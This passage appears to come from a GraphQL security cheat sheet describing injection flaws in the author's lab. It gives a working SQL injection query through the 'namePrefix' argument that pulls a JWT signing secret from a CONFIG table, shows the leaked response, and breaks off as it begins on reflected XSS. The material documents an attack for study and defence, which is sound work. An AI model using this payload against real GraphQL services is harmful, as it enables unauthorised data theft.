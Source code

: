 ### Injection

[CWE-20](https://cwe.mitre.org/data/definitions/20.html) / [CWE-116](https://cwe.mitre.org/data/definitions/116.html)

#### Issue

According to how the information from the GraphQL request query/mutation/subscription are used by the GraphQL server to act on datastores there possibility for injection.

In my labs I have a vulnerability on this point about SQLi in query `dogs(namePrefix: String, limit: Int = 500): [Dog!]` because the parameter **namePrefix** is used in string concatenation to build a SQL query.

**Example:**

I send this GraphQL request in order to list the content of the `CONFIG` table

```javascript
query sqli {
  dogs(namePrefix: "ab%' UNION ALL SELECT 50 AS ID, C.CFGVALUE AS NAME, NULL AS VETERINARY_ID FROM CONFIG C LIMIT ? -- ", limit: 1000) {
    id
    name
  }
}
```

I receive in the GraphQL response the secret used to sign JWT token along the name of the dog for which the name start **ab**:

```javascript
{
  "data": {
    "dogs": [
      {
        "id": 1,
        "name": "Abi"
      },
      {
        "id": 2,
        "name": "Abime"
      },
      {
        "id": 50,
        "name": "$Nf!S?(.}DtV2~:Txw6:?;D!M+Z34^"
      }
    ]
  }
}
```

About XSS, it's interesting to note that the GraphQL response reflect the parameter sent in case of validation fail on the request sent.

**Example:**
